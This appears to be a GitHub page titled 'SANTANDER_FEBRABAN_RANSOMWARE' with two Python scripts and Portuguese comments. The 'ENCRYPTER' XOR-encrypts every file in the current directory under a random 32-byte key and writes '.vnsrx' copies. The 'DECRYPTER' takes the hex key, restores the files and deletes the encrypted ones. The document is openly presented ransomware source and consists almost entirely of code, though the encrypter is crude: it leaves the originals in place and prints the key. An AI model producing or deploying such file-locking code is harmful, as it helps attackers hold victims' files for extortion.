 # SANTANDER_FEBRABAN_RANSOMWARE

ENCRYPTER
import os
import random

def generate_random_key(length):
    """Gera uma chave aleatória de bytes."""
    return os.urandom(length)

def encrypt_file(file_name, key):
    """Criptografa o arquivo especificado usando a chave fornecida."""
    try:
        with open(file_name, 'rb') as f:
            data = f.read()
        encrypted_data = bytearray(data)
        for i in range(len(encrypted_data)):
            encrypted_data[i] ^= key[i % len(key)]
        with open(file_name + '.vnsrx', 'wb') as f:
            f.write(encrypted_data)
    except PermissionError:
        print(f"Permissão negada: {file_name}")
    except Exception as e:
        print(f"Erro ao criptografar {file_name}: {e}")

def main():
    # Gera uma chave aleatória de 32 bytes
    key = generate_random_key(32)

    print(f"Chave gerada: {key.hex()}")  # Exibe a chave em formato hexadecimal

    # Nome do arquivo do script
    script_name = os.path.basename(__file__)

    # Lista todos os arquivos no diretório atual
    for file_name in os.listdir('.'):
        # Ignora diretórios, arquivos já criptografados e o próprio script
        if os.path.isfile(file_name) and not file_name.endswith('.vnsrx') and file_name != script_name:
            encrypt_file(file_name, key)

    print("Todos os arquivos foram criptografados.")

if __name__ == "__main__":
    main()


DECRYPTER
import os

def decrypt_file(file_name, key):
    """Descriptografa o arquivo especificado usando a chave fornecida."""
    try:
        with open(file_name, 'rb') as f:
            encrypted_data = f.read()
        decrypted_data = bytearray(encrypted_data)
        for i in range(len(decrypted_data)):
            decrypted_data[i] ^= key[i % len(key)]
        new_file_name = file_name.replace('.vnsrx', '')
        with open(new_file_name, 'wb') as f:
            f.write(decrypted_data)
        # Verifica se o arquivo descriptografado foi criado com sucesso
        if os.path.isfile(new_file_name):
            # Remove o arquivo criptografado
            os.remove(file_name)
            print(f"Arquivo criptografado {file_name} foi removido.")
        else:
            print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")
    except PermissionError:
        print(f"Permissão negada: {file_name}")
    except Exception as e:
        print(f"Erro ao descriptografar {file_name}: {e}")

def main():
    # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
    key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

    # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
    if len(key_hex) != 64:
        print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
        return

    # Converte a chave de hexadecimal para bytes
    key = bytes.fromhex(key_hex)

    # Lista todos os arquivos no diretório atual
    for file_name in os.listdir('.'):
        # Verifica se o arquivo é criptografado
        if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
            decrypt_file(file_name, key)

    print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
    main()




    
